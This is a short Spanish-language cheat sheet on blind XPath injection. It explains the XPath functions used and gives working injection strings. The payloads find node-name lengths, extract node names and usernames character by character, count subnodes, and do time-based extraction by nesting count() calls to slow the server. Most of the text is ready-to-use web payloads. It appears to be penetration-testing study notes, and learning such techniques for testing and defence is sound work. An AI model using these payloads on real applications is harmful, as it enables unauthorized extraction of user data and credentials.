 ### INTRO

Funciona con el mismo criterio de las BLIND SQLI.

### Funciones

| función | uso |
|---|---|
|Name() | Puede ser llamada en cualquier nodo y nos da el nombre del nodo    |
|Substring () | nos permite exfiltrar el nombre de un nodo un caracter a la vez  |
|string-length() | nos permite determinar el largo del nombre de un nodo |
|count() | Devuelve el número de hijos que tiene un nodo |

### Explotaciones

#### Extraer el length de un nodo

  invalid'+or+string-length(name(/*[1]))=1+and+'1'='1
  
#### Extraer caracteres de un nodo

  invalid'+or+substring(name(/*[1]),<index_del_nombre>,1)='a'+and+'1'='1

#### Extraer cantidad de subnodos 

Una vez que tenemos el nombre de un nodo tenemos podemos extraer la cantidad de subnodos:

  invalid'+or+count(/users/*)=2+and+'1'='1


#### Extrayendo el nombre de un subnodo:

Una vez que sabemos la cantidad de subnodos y tenemos el nodo principal podemos empezar a realizar los pasos anteriormente agregando el index del subnodo: [1]

  invalid+or+substring(/users/user[1]/username,1,1)='a'+and+'1'='1
  
---

### Time Based blind xpath

En los casos donde la respuesta no pueda darnos un indicio de funcionamiento, aunque no hay una funcion SLEEP, tenemos formas de sobrecargar el procesamiento haciendo que la respuesta se vuelva más lenta y de esta manera saber si se están procesando los datos. 

Para esto usaremos de manera recursiva la función COUNT haciendo que se itere el documento reiteradas veces.

  invalid'+or+substring(/users/user[1]/username,1,1)='a'+and+count((//.)[count((//.))])+and+'1'='1

